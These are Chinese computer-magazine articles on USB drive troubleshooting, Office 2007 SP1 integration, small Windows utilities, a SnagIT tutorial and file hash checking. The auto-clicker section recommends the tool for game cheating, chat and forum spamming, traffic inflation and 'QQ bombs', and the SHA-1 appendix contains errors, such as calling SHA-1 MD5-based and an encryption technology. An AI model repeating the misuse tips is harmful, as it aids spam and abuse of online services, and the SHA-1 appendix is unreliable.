处理方法：首先此病毒可以自动关闭系统的自动播放功能。可以在网上搜寻到专杀软件在安全模式下查杀，再在系统的AUTO选项中找到自动播放的功能选项，修改自动播放功能。

## 插上闪盘后电脑死机

可能是因为本身机器USB口问题，也有可能是系统不兼容，或病毒原因。

处理方法：如果插上闪盘，没有显示找到新硬件时，可以拔下来重插一次，系统USB是会有些漏洞的，在重新插入机器时，系统会重新查找新的硬盘磁片，以上方法还是不行，那么将系统重启，在安全模式下插上闪盘，对系统进行全面杀毒。

## 闪盘感染病毒的原因

闪盘的病毒主要都是在系统对闪盘进行检测识别的时候传入的。我们可以用SHIFT键不让系统进行自动播放，这样可以减少系统在插入闪盘时病毒传播的几率。

## 升级过程中出现黑屏和死机现象

基本上可以认为是本身机器的问题。

处理方法：在安全模式下对机器进行杀毒或重新安装系统。

## 识别闪盘但无法读取空间

将闪盘拔出进行再次重插；若还是不能解决，则有可能闪盘芯片坏了，遇到这种情况闪盘就无法继续使用了。

## 双击不能打开闪盘空间

可以用鼠标的右键打开，如果能打开，说明机器本身已中了闪盘病毒。可以在网上下载相对应的软件进行杀除。

## 杀毒闪盘第一次插到电脑上认不到存储盘

杀毒闪盘第一次插到电脑上认不到存储盘，是因为闪盘的分区号和电脑的分区号重复了，可以通过设备管理器来查看分区号是否重复。

处理方法：把电脑注销一下或把闪盘重插一下。

小结：闪盘对于广大电脑用户来讲已经不是什么奢侈品，然而如何使用好手中的闪盘，让它发挥出更大的价值，则不是一件易事。本文中笔者简要介绍了一些闪盘使用的技巧和升级方案，相信能够对你有所帮助。但是闪盘功能的开发依然是“路漫漫其修远”，相信会神奇不断，惊喜连连，一起来关注吧！

## 简单整合SP1到Office 2007的安装文件中

◆文/王志军

微软已经在不久前正式发布了Office 2007的SP1补丁包，简体中文版本的官方下载地址为http://download.microsoft.com/download/1/6/5/1659d607-8696-4001-8072-efaedd70dd30/office2007sp1-kb936982-fullfile-zh-cn.exe，我们可以通过非常简单的方法将SP1整合到Office 2007的安装文件中。

第1步：首先当然是需要准备好Office 2007的安装文件，如果你拥有安装光盘，那么需要将其复制到硬盘上某个可用空间比较大的磁盘中，然后需要将SP1补丁包下载回来备用。

第2步：打开记事本，将如下代码粘贴过去，注意将“<PIDKEY Value="”后面的内容替换为你所拥有的安装密钥，这里不需要输入各段密钥中的连接号，最后将其保存为CONFIG.XML的文本文件，保存时注意选择文件类型为“所有文件”：

```
<Configuration Product="ProPlus">
<PIDKEY Value="XXXXXXXXXXXXXXXXXXXX" />
<OptionState Id="WORDFiles" State="Local" Children="force" />
<OptionState Id="EXCELFiles" State="Local" Children="force" />
<OptionState Id="PPTFiles" State="Local" Children="force" />
<OptionState Id="ACCESSFiles" State="Local" Children="force" />
<OptionState Id="VisioPreviewerFiles" State="Absent" Children="force" />
<OptionState Id="OUTLOOKFiles" State="Absent" Children="force" />
<OptionState Id="XDOCSFiles" State="Absent" Children="force" />
<OptionState Id="PubPrimary" State="Absent" Children="force" />
<OptionState Id="SHAREDFiles" State="Local" Children="force" />
<OptionState Id="TOOLSFiles" State="Local" Children="force" />
</Configuration>
```

第3步：在某个可用空间比较大的磁盘下创建Updates文件夹，例如“e:\updates”，然后打开“运行”对话框，输入如下命令并运行，这里假设SP1的安装文件路径为“h:\Downfiles\office2007sp1-kb936982-fullfile-zh-cn.exe”：
h:\Downfiles\office2007sp1-kb936982-fullfile-zh-cn.exe /extract:e:\updates
此时会弹出对话框，接受许可条款之后单击“继续”按钮即可完成解压缩的工作，然后我们会得到9个.msp格式的安装文件。

第4步：将刚才创建的CONFIG.XML文件替换“\ProPlus.WW”下的同名文件，并将“e:\updates”替换安装文件下的同名文件夹，就可以完成整合SP1的工作，甚至你还可以将其他的插件添加到这里，例如PDF或XPS的官方插件，至于刻录光盘的操作这里就不再多作介绍。

现在，我们就可以顺利启动这个集成了SP1的Office 2007的安装程序，安装接近尾声时，我们会看到提示信息，稍待片刻即可完成，例如运行Word 2007查看版本号，你会发现“Microsoft Office Word 2007 (12.0.6212.1000) SP1 MSO (12.0.6213.1000)”的信息，有意思吧？

# 雷厉风行 ——小软件让操作更快捷

现在做什么事儿都讲究个“提速”，电脑作为现今必备的办公、家用设备，“提速”也势在必行，那么如何给电脑提速呢？“硬件”条件自不必说，日常熟练快捷的系统操作也不能忽视。时下网络上出现了越来越多的功能实用、操作又很简单的小软件，可以使你的系统操作更加快捷，更加“雷厉风行”！下面就推荐六款功能各异的小软件，相信一定会对你有所帮助。

# 一、华晶桌面图标精灵为你的桌面“美容”

为了快速打开一些应用程序，我们一般会在桌面上设置一个该程序的“快捷方式”图标，但时间长了，过多的“快捷方式”再加上其他一些桌面图标会使你的桌面杂乱不堪，遮挡了漂亮的桌面壁纸，严重地影响了桌面的美观，就好像一个美女脸上的一堆雀斑一样招人讨厌。华晶桌面图标精灵正是为解决这个问题应运而生的。作为一款管理桌面图标的软件，它可以将你的桌面上的图标进行分类，生成菜单挂到屏幕上方，这个菜单会永远漂浮在所有窗口的最上面，你可以随时找到它，操作简单，还可以根据你的情况选择菜单的样式，使用后你会惊喜地发现曾经杂乱的桌面变整洁了。

- 第一步：下载该软件，地址为：http://www.newhua.com/soft/24695.htm，下载后解压缩包，安装程序。
- 第二步：打开该软件，首次使用会弹出“使用向导”对话框，里面包含一些该软件的介绍以及使用方法、注意事项等。可以直接单击“开始收集图标”按钮。
- 第三步：弹出主页面（如图1所示），上边一行有七个选项卡，分别为“常用”、“网络”、“办公”、“影音”、“游戏”、“学习”、“其他”，单击名称即可选择各选项卡。将你的桌面图标按你的个人习惯拖到不同的选项卡里，如“常用”选项卡。
- 第四步：桌面图标拖放完毕后，单击“生成菜单”按钮。在选项卡的上方可预览一下菜单，确定无误后关闭页面。
- 第五步：在屏幕上方找到菜单，单击“系统”选项，弹出菜单提供了丰富的功能，“我的电脑”、“我的文档”等桌面系统图标都可以找到，可以利用下方的“更改主题”和“窗口透明度”功能选项改变菜单样式。这时，可以单击“隐藏桌面图标”选项，就会发现原来存放在桌面上大大小小的图标不见了，如果想重新看到那些图标，可以再单击“显示桌面图标”选项。
- 第六步：好了，到这里桌面图标菜单就设置完毕了，单击菜单上各分类选项，刚才拖放进去的桌面图标就会显示在下拉菜单里，非常简洁。

如果在浏览页面或做其他事情的时候，发现菜单位置不合适，还可以鼠标左键拖动菜单右侧到合适位置即可。



> 小提示
经作者使用，发现桌面上的一些未经安装到系统的小的应用程序以及文件夹等不能被拖放到菜单里，该软件只适用于管理那些已经被安装到系统中的软件的桌面图标。

# 二、查找文件真的“易上手”

众所周知，电脑系统自带的文件搜索功能，不仅操作烦琐，而且搜索速度也非常慢，真是“等得花儿都谢了”。现在推荐一款软件——“查找文件易上手”，可以轻松查找所需文件，操作简便，搜索速度极快，此外还可以清除垃圾文件，搜索已知病毒文件或木马文件等。让我们一起来看一下如何操作吧。

- 第一步：下载该软件，地址为：http://www.newhua.com/soft/68046.htm，下载后直接安装程序。
- 第二步：打开该软件，在页面左上方选择需要搜索的系统分区，每个人存放各类文件一般都有习惯，固定地存放在某个分区里，所以你可以根据个人情况搜索目的盘；选择分区后还可以选择该分区里的某个文件夹进行更有目的的搜索，不过一般没有这个必要，因为该软件搜索速度极快，即使搜索整个分区也用不了半分钟。
- 第三步：在“查找文件名”的文本框内输入文件名。注意要按照你个人需求写出完整的文件扩展名，如搜索的是文档，可以输入“*.txt”或“*.doc”等；搜索视频可以输入“*.rvmb”、“*.rm”或“*.avi”等，小数点后面的即是扩展名，分别代表不同类型的文件。输入后单击右边的“搜索”按钮。

很快搜索结果就出来了，如果你还记得文件的名字，那么现在就可以很容易找到该文件了。在文件的前方有复选框，可以对搜索出来的文件进行处理，单击“删除选择文件”或“全部删除”按钮，从而删除选定文件。

> 小提示
有的时候扫描电脑时，扫描出了木马或其它病毒，但杀毒软件提示只能手动删除，虽然上面也提示了存放路径，但一层一层地去点击文件夹找太麻烦了，这时候就可以应用“查找文件易上手”软件，输入木马或其它病毒的文件名，轻松找到其所在位置，予以彻底删除。

### 三、点点右键，轻松搞定

XP超级右键能将右键扩展为高效的多级菜单，自定义增加/删除菜单，自定义增加图片美化菜单，能极大提高工作效率，方便您的操作。软件自带了常用的菜单选项，直接选用即可。下载地址为：http://www.skycn.com/soft/45234.html，下载后解压缩包，安装程序。

### 1.常用右键菜单设置

打开软件，上方有六个选项卡，鼠标单击“常用右键”选项卡（软件打开即默认该选项卡内容），凡是复选框内有对号的即是你现在右键菜单里已经具有的功能。如图2。



在“‘文件/文件夹’右键”选项里根据个人需求设置，如重启、关闭、注销计算机、清空回收站、将文件移动或复制到某个文件夹等功能都可以实现，只需在相应复选框内勾上对号即可轻松搞定，在鼠标右键单击文件或文件夹时菜单中就会显示出该功能。

“‘我的电脑’图标右键”选项意为鼠标右键单击“我的电脑”时菜单里的功能，也是按需进行设置即可，如“设备管理器”、“控制面板”、“增加/删除程序”等多是常用的功能。

鼠标单击“清理右键”选项卡，在需要清理的右键菜单功能前的复选框内勾上对号，然后单击右下方“清理选中的菜单”按钮即可。

### 2.其他右键功能设置

- 右键背景设置

这个功能是该软件的一个特色功能，可以使平常单调的右键菜单背景的颜色绚丽起来，可以选择软件默认的颜色，即天蓝色，也可以单击“选择图片”按钮从你的电脑上选择适当的图片做背景，注意只能是BMP格式的图片才行。

- 右键看图功能设置

鼠标单击“右键看图”选项卡，可以单击“增加右键看图”按钮，当然不需要时也可以卸载，单击下面的“卸载”按钮即可，还可以设置右键调整图片大小按钮，需要在前面的复选框内勾对号。

设置好后在右键单击图片的时候，显示出来的菜单里就会有这个图片的预览，还可以调节图片大小以及转换图片格式。

- 自定义右键功能设置

鼠标单击“自定义右键”选项卡，软件自带的右键菜单如果还不能满足你的需求，那么你可以根据个人情况自定义菜单，在这个选项卡内，命令类型中有2个默认的选项“打开文件夹”和“执行程序或打开文件”，你可以按需选择，如要另外添加命令，可在右下角单击文件夹图标进行添加。最后，在需要添加到右键菜单的类型前的复选框勾对号即可。

### 四、轻轻松松查看日历和时间

DTAssist时间助手是一款集万年历(国历，农历)、整点报时、闹钟提醒、网络对时等功能于一体的小软件，精致小巧，内容丰富，而且不改写注册表内容，不调用其它的动态库文件。

### 1.DTAssist时间助手下载与打开

下载该软件的最新版本2.0版，地址为：http://www.skycn.com/soft/31284.html。它是一个未注册的免费版本，除了不能自定义节日以外都可以使用，没有任何时间限制。下载后解压缩包，安装后双击打开软件，会发现在屏幕上出现了一个手举着计时器的米老鼠，计时器上显示的正是当前时间，软件运行时会自动缩小到屏幕右下角。

在时钟上单击右键会弹出一个菜单，可以根据个人需求变换皮肤以及透明度，还可以选择是始终显示还是隐藏。

### 2.软件功能及操作介绍

鼠标双击屏幕右下角的软件图标，显示该软件主界面，左上方工具栏有三个选项“文件”、“工具”和“帮助”（如图3所示）。

- 查看万年历

该软件设置了从1901年到2100年所有年份的日历，在主界面右上方年份、月份下拉菜单中可以随意选择某年某月的日历进行查看，左上方显示农历年份，还可以显示农历节日、24节气、西方节日，以及一些特殊节日（如九一八事变）等，当前日期的背景会呈现醒目的亮蓝色，当前时间以及节日则显示在左下方。



- 提醒功能助你改掉遗忘的毛病

鼠标单击工具栏的“工具”选项，选择“计划提醒”会弹出一个界面，单击“增加”按钮设置一个提醒（当然在这个界面中还可以修改和删除设置好的提醒），在弹出的界面里设置这个提醒的信息，可以先设置一下闹钟的主题、种类和时间，以及闹钟的模式，然后设置提醒内容，可以选择字体大小和背景颜色，接着设置提醒声音，单击红色圈内所示的按钮，设置好后，点“播放”按钮试听效果，不合适可以再换。值得一提的是，该软件还提供了定时执行程序的功能，可以设置定时重启、关闭、注销电脑，还可以定时执行某一个应用程序。全部设置好后点下方的“保存”按钮即可。

> 小提示：该软件运行后会自动缩小到屏幕右下角系统托盘，想进入主界面需要双击图标，或者右键单击图标，在菜单中选择相应功能即可。

### 五、巧设热键——没有最快键，只有更快键

“水晶情缘热键专家”是一款专门设置热键的小软件，支持一键关机、一键打开光驱、一键打开网页、一键打开文件/文件夹等许多功能，操作方便，且是绿色软件。有了“水晶情缘热键专家”，再也不用不停地点鼠标了，让你的鼠标一边凉快去吧！软件下载地址为：http://www.skycn.com/soft/14449.html，下载后解压缩包，由于是绿色软件，所以无需安装即可使用。打开程序，软件会自动缩小到屏幕右下角系统托盘，双击图标即可看到主界面。

### 1. 设置常用快捷键

左键单击“设置”选项，选择“选项”，在弹出界面最上方设置热键启动程序的方式，有三种方式：缺省、最大化、最小化。设置好后单击右边“保存”按钮进行保存。如图4。

下边三个热键功能分别为关闭电脑、打开光驱、打开某个网页，软件默认热键为Win+F10、Win+F11、Win+F12，如果你觉得不合适，可以自行更改。此外，打开的网页地址软件默认百度，也可自行输入网址。设置好后单击“保存”按钮进行保存。

此外，软件还可设置10个热键，需要设置几个热键要先在前面复选框内勾对号，然后设置，软件默认热键为Alt+0-9，觉得不合适可以自行更改。至于右键内容，可以单击右侧“快速添加”按钮，在弹出菜单中有10个选项，根据自己的需要选择所需热键功能，选择后网址或程序路径会显示在文本框内。当然，你也可以自定义热键内容，可以输入某个网址，也可以选择某个应用程序，添加方法是单击右侧的文件夹按钮，单击后弹出一个对话框，从电脑上选择任意一个应用程序，如QQ，单击“打开”按钮即可。



### 2. 其他功能介绍

右键点击该软件位于屏幕右下角托盘的图标，弹出菜单里有很多快捷功能，包括“清除设置”和“退出Windows”，以及“设置开机启动”等，使用起来非常方便。

> 小提示：使用热键时必须使该软件处于运行状态，一旦关闭软件，热键功能将失效。

### 六、游戏外挂——鼠标自动点击器

很多朋友在平时的工作中，尤其是在玩一些游戏，包括网络游戏或RPG游戏的时候，经常会遇到需要大量点击鼠标左键或右键的时候，麻烦不说，这还真是个体力活啊，真是耗时、耗力、耗鼠标，百“耗”而无一利！有没有好的解决办法呢？今天就为大家介绍一款很有用的绿色小软件——“游戏外挂——鼠标自动点击器”。该软件操作非常简单，可调节点击速度，轻松消除您的烦恼！下载地址为：http://www.skycn.com/soft/14277.html，下载后解压缩包，单击自动运行程序，打开软件（如图5所示）。



该软件只有一个界面，功能一目了然，最上方可以选择设置鼠标左键还是右键，以及单击还是双击，还有点击速度，选择范围为0.01到50秒/次。

软件默认启动鼠标自动点击热键为F3，关闭热键为F4，当然你也可以在F1到F9之间任意选择。

启动鼠标自动点击的时候，可以事先单击“开始记录”按钮，关闭鼠标自动点击后，再单击“停止记录”按钮，这样可以录制鼠标点击过程，并保存为脚本。

> 小提示：这款软件用途广泛，比如：你可以用作游戏外挂，可以在聊天室刷屏，可以在论坛里灌水，可以用来刷网站流量，可以制作QQ炸弹等等，相信你一定会喜欢上它的！

# 图文截取先锋 —— SnagIT V8.23教程全解

图片往往要远比文字更有说服力，因此图像捕捉软件就成为如今图文编辑中必不可少的工具之一。笔者在体验过众多图文软件后发现，SnagIT以其强大功能让人为之倾心，真可谓图文截取先锋！拥有十五年历史的SnagIT是一款功能强大的屏幕、文本和视频捕获与转换程序，支持多种输入格式，可以捕获Windows屏幕、DOS屏幕、RM电影、游戏画面等，捕捉的图像既可以被存为BMP、PCX、TIF、GIF、JPEG格式，也可以被存为系列动画。另外，其自带的图片编辑器还能完成很多的图片特效处理，如修剪、调整图像大小、添加水印、自定义注释框等。其最新版本还可以嵌入Word、PowerPoint和IE浏览器中，操作更加方便。

◆文/TMG lx

# 一、SnagIT的安装

面对功能强大的SnagIT，你还等什么呢？让我们赶紧一起来学习SnagIT V8.23的使用，你也可以成为截图高手！

| 属性 | 内容 | 属性 | 内容 |
| :--- | :--- | :--- | :--- |
| 姓名 | SnagIT | 大小 | 14237KB |
| 语言 | 英文 | 开发商 | Home Page |
| 最新版本 | SnagIT V8.23 | 软件类别 | 国外软件/图像捕捉 |
| 下载地址 | http://www.onlinedown.net/soft/5306.htm | 汉化补丁 | http://www.onlinedown.net/soft/5305.htm |
| 主要功能 | 从屏幕、窗口、特定对象和范围内抓取图像/视频/文字，并对其进行图片编辑。 | | |

下载完成后，解压缩安装包，选择“SnagIT.exe”应用程序进行安装。按照提示，依次单击“Next（下一步）”，选择“Typical（典型安装）”，单击“Next（下一步）”，直至完成安装。一般情况下，我们所安装的是SnagIT V8.23英文版，你可以下载并运行“SnagItV8.23汉化补丁.exe”进行汉化。



安装完毕之后，你会看到在桌面已经生成一个SnagIT软件的启动图标。双击运行该软件，我们就可以看到它的工作窗口界面（如图1所示）。默认的是SnagIT的“普通视图”模式。SnagIT的功能很强大，可以捕捉图像、文本、视频等，图像捕捉是该软件最主要的功能，因此我们就先以图像捕获为例进行学习。最后，我们还会介绍文本和视频的捕获，以及从网页上捕获数据的方法。

# 二、SnagIT的设置

在捕获图像前，我们首先对软件进行设置，同时熟悉该软件的相关工具。

### 1. 设置输入方式

单击“捕获（C）”菜单，选择“输入（I）”菜单项，弹出下拉菜单（如图2所示）。“输入”菜单项包含10种输入方案以及4个与输入方案相关的设置工具，具体如下：



- 屏幕：捕获整个Windows桌面。
- 窗口：窗口输入将捕获你指定窗口的全部或一部分。
- 激活窗口：捕获当前活动窗口。
- 范围：捕获你指定的矩形区域。
- 固定范围：捕获一个你指定的预置矩形范围。
- 对象：从屏幕捕获图标、按钮、工具栏或是控件。
- 菜单：捕获当前你在屏幕中打开的菜单。
- 滚动：捕获自动滚动窗口/滚动范围/滚动活动窗口/自定义滚动。
- 外形：捕获区域形状，包括手绘/椭圆/圆角矩形/三角形/多边形。
- 高级：捕获特殊对象，包括剪贴板、图形文件、程序文件、DOS全屏幕、DirectX、伸展窗口、壁纸、扫描仪和照相机、剪贴板链。
- 多重区域：运用“ALT+鼠标左键”，可以同时捕获屏幕中的多个区域。
- 包含光标：捕获时包含光标。
- 保存链接：捕获时包含图像的链接。
- 属性：单击打开“输入属性”对话窗，包括7个选项卡（如图3所示），单击相应的选项卡可以设置背景颜色、固定区域的大小、起始点、菜单捕获、滚动捕获、扩展窗口等，以及选择扫描仪与照相机的来源。设置结束后，单击“应用”按钮，返回主界面。

### 2. 设置输出方式

单击“捕获（C）”菜单，选择“输出（O）”菜单项，弹出下拉菜单（如图4所示），可以用来设置输出方案。包含12种输出方案以及3个与输出方案相关的设置工具。



输出方案包括，无、打印机、剪贴板、文件、E-Mail、图库、FTP、即时通讯、程序、Excel、Word、PowerPoint。输出设置包括多重输出（用多种输出方式同时输出）、预览窗口、属性（单击打开对话框，如图5所示）。



### 3. 设置滤镜

单击“捕获（C）”菜单，选择“滤镜（F）”菜单项，弹出下拉菜单（如图6所示），用来设置捕获图像时图像的数据。

主要包括：色深（包括无、单色、中间色、灰度、自定义色深）、色彩置换（包括无、反转色彩、色彩置换）、色彩修正、图像分辨率、图像比例（包括无、200%、300%、400%、75%、50%、33%、调整图像尺寸、平滑缩放）、标题、边框、边缘效果、水印、调整。

通过“滤镜”菜单，可以实现在捕获图像前对图像相关数据的设定。从某种程度上可以说“滤镜”实际上是SnagIT图像编辑器的一部分。

### 4. 设置捕获模式

单击“捕获（C）”菜单，选择“模式（M）”菜单项，弹出下拉菜单（如图7所示）。根据需要捕获的对象设置捕获模式。

- 色深(S)
- 色彩修正(O)...
- 图像分辨率(R)...
- 图像比例(P)
- 标题(A)...
- 边框(B)...
- 边缘效果(D)



捕获模式包括图像模式、文本模式、视频模式、Web模式。

### 5. 设置查看方式

单击“查看（V）”菜单，弹出下拉菜单（如图8所示），选择你所需要的查看模式。

- 无(N)
- 单色(M)...
- 中间色(H)
- 灰度(G)
- 自定义色深(C)...


- 无(N)
- 打印机(P)
- 剪贴板(C)
- 文件(F)
- E-Mail
- 图库(A)
- FTP
- 即时通讯(I)
- 程序(O)

查看模式包括普通模式、经典模式、紧凑模式。此外，还可以设置是否显示“SnagIT一键单击”以及“工具栏”。除了以上这几种主要设置外，在“工具”菜单中还有如下设置：





## 三、SnagIT捕获图像

“计时器设置”：单击打开对话框（如图9所示），是捕获时的定时装置，包括“延时/计划”、“捕获定时器”两个选项卡。在“捕获”菜单中也有“计时器设置”，就在其下拉菜单的最后一项。

“SnagIT打印机捕获设置”：单击打开对话框（如图10所示），用来设置输出时的打印机属性等。



“程序参数设置”：单击打开对话框（如图11所示），包括热键设置、程序设置（设置是否在捕获前隐藏SnagIt和系统启动时是否随系统一起启动与其他一些选项）、通知、更新设置。



此外，在“捕获”菜单中还有“预览窗口”、“包括光标”、“保存链接”、“多重区域”、“包含音频”，用来打开或关闭这些选项。这些选项处于打开状态时，选项前有“对钩”。

### 1. “普通视图”模式

单击“捕获”菜单，在“输入”菜单项中选择输入方案，或在主窗口“方案”栏中单击相应按钮，选择输入方式。单击右下角的“捕获”按钮捕获图像。默认每次捕获的图像都会自动输出到“SnagIT捕获预览”窗口。如果想改变输出方案，单击“捕获”菜单，在“输出”项中选择输出方式，截图完毕后将会按所选择的输出方式输出。



图像如果输出到“SnagIT捕获预览”，则会打开“SnagIT捕获预览”窗口（如图12所示）。在窗口的左侧设有“绘图工具”，丰富的工具可以帮助你在所捕获的图像上进行编辑。另外，在窗口的右侧还设有“任务”窗口，包括效果、大小、颜色、动作，你可以对图像的属性进行设置。你也可以通过使用窗口上方的主菜单来完成这些编辑操作。图像编辑完成后，在工具栏中选择输出方式，包括另存为（文件格式）、全部复制（剪贴板）、打印、发送E-Mail、图库、通过FTP发送、IM（即时通讯）、程序、Excel、Word等。最后，单击左上角的“完成”按钮，返回主界面。

### 2. “经典视图”模式

- 1. 输入设置：单击“输入（I）”菜单，选择捕获图像的方式。
- 2. 输出设置：单击“输出（O）”菜单，选择输出捕获图像的方式。
- 3. 滤镜设置：单击“滤镜（F）”菜单，选择捕获图像时图像的数据等。
- 4. 捕获图像：单击“捕获”按钮捕获图像。

默认将会弹出“捕获预览”窗口（图12），可以对捕获的图像进行编辑，然后选择输出方式，单击“完成”返回主界面。怎么样？操作起来很简单吧！

## 四、SnagIT编辑图像

很多截图软件，在捕获结束后还需要借助相应的图像编辑软件对所捕获的图像进行处理。SnagIt V8.23在图文截取功能的基础上还集成了图像浏览与处理功能，使我们在截图结束后可以同时对图像进行进一步的处理，真正做到一步到位。在SnagIT中实现图像编辑功能的是“SnagIT编辑器”。无论哪种视图模式，都可以通过单击“工具”菜单中的“SnagIT编辑器”菜单项打开窗口（图13）。通过“SnagIT编辑器”可以完成一些常规的图片修饰操作，如缩放图像、调整颜色、添加文字、设置边框、注释等。



事实上，我们截图结束后，随即默认弹出的“SnagIT捕获预览”窗口就是将“SnagIT编辑器”嵌入其中来实现图像编辑功能的。下面就来介绍运用“SnagIT编辑器”来实现一些编辑效果的方法。

### 1. 添加水印——为图片盖上自己的私章

打开“SnagIT编辑器”后，在窗口左侧单击“打开”按钮，选择需要添加水印的图片，然后单击“打开”，返回编辑器主窗口。但如果是在截图之后默认弹出的“SnagIT捕获预览”窗口对图像进行进一步的编辑处理就不需要进行这一步的操作。


单击“效果”菜单选择“水印”项，或者在右侧的“任务”窗口“效果”栏中单击“水印”项，打开“水印”窗口（如图14所示）。选择需要使用的水印图片（可以是GIF、JPG等格式的任意图像），设置“显示效果”为覆盖或者衬托。同时，你还可以通过单击“高级设置”打开窗口，设置衬托效果、位置和大小等。

这时你会发现图片悄悄地发生了“改变”。最后，你只需要单击“保存”按钮，就可以将这张属于你的图片保存下来了。

### 2. 添加箭头——增加图片的说服力

单击“绘图工具”窗口的“工具”栏中的“箭头”工具。在“属性”栏中，单击“样式”按钮选择箭头样式，你也可以单击“自定义”按钮进行详细的参数设置，然后设置箭头的“宽度”与“不透明度”。最后，在图像中拉动鼠标，就能按照你设置的参数画箭头了（如图15所示）。



### 3. 添加气球——我也可以做漫画

单击“绘图工具”窗口的“工具”栏中的“项目编号”工具。在“属性”栏中，将“种类”设置为气球，并通过“编号”与“插图编号”设置气球样式。最后，在图像中拉动鼠标，就可以为你的图像添加气球了（如图15所示）。图像一下子生动起来了吧？

### 4. 制作Flash

打开“SnagIt 编辑器”窗口。单击“文件/打开”选项导入一张图片作为背景。单击“文件/插入图片”，导入你要实现交互式功能的图片（尺寸要小于背景图片），将其移动到合适位置。

单击右侧“任务”窗口最下方“动作”栏的“链接/热键”选项，“任务”窗口将切换至“链接/热键”操作窗口。在“热点任务”栏下方根据你的交互式图片形状选择一个合适的图形，然后在图片中用鼠标选取范围，使它正好覆盖你的交互式图片范围即可。

在“所选的热点属性”栏中的“链接地址”框中输入一个网站地址，接着单击“Flash高级热键”选项，弹出“鼠标滚动时弹出”栏。从“类型”栏后面的三个图标中选择最后一个，单击“选择弹出图像”，添加一张图片。这张图片可以实现当鼠标移到交互式图片上时浮动显示。你还可以根据需要设置“鼠标移过高亮”功能，并设置“颜色”和“不透明”度。（如图16所示）



最后，单击“文件/另存为”选项将其保存为“.swf”格式文件即可。

这里只是简单介绍了利用“SnagIT编辑器”能够实现的几种特殊功能。其实，这只是综合利用了“SnagIT编辑器”的基本功能完成的，希望这几个实例可以帮助你熟悉“SnagIT编辑器”的用法。

## 五、其他捕获模式

图像捕获功能是SnagIT最主要的功能。但SnagIT除了能够捕获图像外，还能够捕获文字和视频，并且可以从网页上、软件中以及DOS中捕获数据，下面就来介绍实现这些功能的操作方法。要捕捉其他格式的数据，首先要切换捕获模式。因为SnagIT默认的捕获模式是“图像捕获”。

在“普通模式”下，我们可以通过单击“捕获（C）/模式（M）”菜单来切换捕获模式（图7）。而在“经典模式”下，我们可以通过窗口左侧的“文本捕获”/“视频捕获”/“Web捕获”按钮来变更捕获模式（图17）。



### 1. 获取文字

SnagIT提供的文字捕获功能是不容忽视的，不论是加密网页还是电子书，其中的文字都可以被你捕获。此外，SnagIT还可以直接捕获软件菜单对话框名称，也可以直接捕获DOS下的文字，十分方便。

将捕获模式切换成“文字捕获”后，通过“捕获/输入”菜单（“经典视图”下是“输入”菜单）设置输入方式为“自动滚屏”。

切换到加密网页或电子书中按下捕捉热键激活捕捉功能，然后单击鼠标左键使窗口自动滚动，滚动到最底端后自动将结果保存入“捕获预览”。保存后使用文字处理软件将其中的空格清除。

### 2. 获取视频

当事情是一个变化的过程时，我们是很难用几幅图片交代清楚的。例如，将对软件的操作过程记录下来制作成教程。这时我们就想，要是有一个屏幕录像机就好了，可以将屏幕上的动态过程记录下来，就不用截取大量的图片来说明了。SnagIT V8.23就具备这样的功能。

将捕获模式切换成“视频捕获”。然后单击主界面中的“录制一个屏幕视频”，并在右侧窗口的“输入”栏中选择输入方式（在“经典视图”下通过“输入”菜单设置输入方式）。

将SnagIt最小化，按下捕捉热键激活捕捉功能，在弹出窗口中单击“开始”，接着进行想录制的具体操作，操作结束后双击任务栏的录像机图标暂停并跳出提示窗口，单击“结束”即完成此次操作的录制工作并保存成AVI文件。同时也可以通过麦克风录制同步声音。

### 3. 获取网络数据

SnagIt V8.23还可以批量抓取网站上的所有图片，将捕获模式切换成“Web捕获”。单击捕获按钮，提示要抓取的网站，在其中输入网站的Web地址，单击“确定”按钮。系统将从网站扫描图片，并把找到的图片显示在窗口中，选择需要的图片进行下载。最后单击“完成”按钮，出现一个窗口，选择放置图片的文件夹，所下载的图片将会被放到相应的文件夹中。

SnagIT.V8.23的使用就介绍到这里了。文章是以SnagIT的特色功能为重点的，其实它还有很多其它功能，这就需要大家在使用的过程中，通过不断的尝试去积累了。

综述：作为图文截取先锋的SnagIT，其强大的捕捉和转换功能，以及良好的工作界面，一定会让你爱不释手的！

## 用微软工具检测文件的原版性

◆文/王志军

在下载微软的文件时，你可能会为了是否属于原版而大伤脑筋，例如最近刚刚公开发布的Vista SP1、XP SP3，很多朋友就为了是否属于原版而争论不休，也担心自己下载的文件是否被提供者做了什么手脚。其实，我们可以使用微软提供的“文件校验和完整性程序工具”进行比对，这里以校验手头这份ISO格式的Windows XP SP3补丁包文件为例进行说明，具体步骤如下：

第1步：访问 http://msdn.microsoft.com/zh-cn/subscriptions/downloads/details.aspx?pm=pid%3a140 页面，这里我们需要对版本、语言、文件类型、体系结构类型等项目进行适当的选择，这样可以更快捷地进行定位。

第2步：完成上述设置之后，我们很快就可以获得相应的产品信息，例如这里选择比较流行的601.04MB的版本，单击最右侧的“显示详细信息”链接，我们很快可以从这里获得相关的哈希信息。

第3步：接下来，我们还需要相关的校验工具；微软提供了一款可以在命令行模式下使用的校验工具，下载页面是 https://www.microsoft.com/downloads/details.aspx?FamilyID=b3c93558-31b7-47e2-a663-7365c1686c08&DisplayLang=en，这是一个自解压文件，双击运行后可以获得两个文件：fciv.exe、ReadMe.txt，将这两个文件复制到“Windows\system32\”路径下就可以了。

第4步：以管理员身份进入命令提示符，定位到相关的文件夹，然后手工输入下述命令并执行：

```
fciv.exe zh-hans_windows_xp_professional_with_service_pack_3_x86_cd_vl_x14-74070.iso -both
```

上述命令中的“-both”参数是同时显示MD5、SHA-1两方面的信息，如果不使用这个参数，则默认输出MD5信息，或者直接全选“-sha1”参数即可。执行上述命令之后，我们需要耐心等待片刻，遗憾的是这个过程中并没有进度条，很快就可以计算出文件的MD5和SHA-1哈希值。很显然，报告的SHA-1信息与我们从微软官方网站获得的哈希信息并不吻合，看来这个文件并非官方原版……

如果觉得有必要的话，你也可以使用“-xml”参数将校验信息输出至相应的XML文件，这样分析起来会更方便。

### 附：SHA1的来龙去脉

SHA1是由NIST NSA设计为同DSA一起使用的，它对长度小于264的输入，产生长度为160bit的散列值，因此抗穷举(brute-force)性更好。SHA-1设计时基于和MD4相同原理，并且模仿了该算法。SHA-1是由美国标准技术局（NIST）颁布的国家标准，是一种应用最为广泛的hash函数算法，也是目前最先进的加密技术，被政府部门和私营业主用来处理敏感的信息。而SHA-1基于MD5，MD5又基于MD4。

## 软件安装更快捷

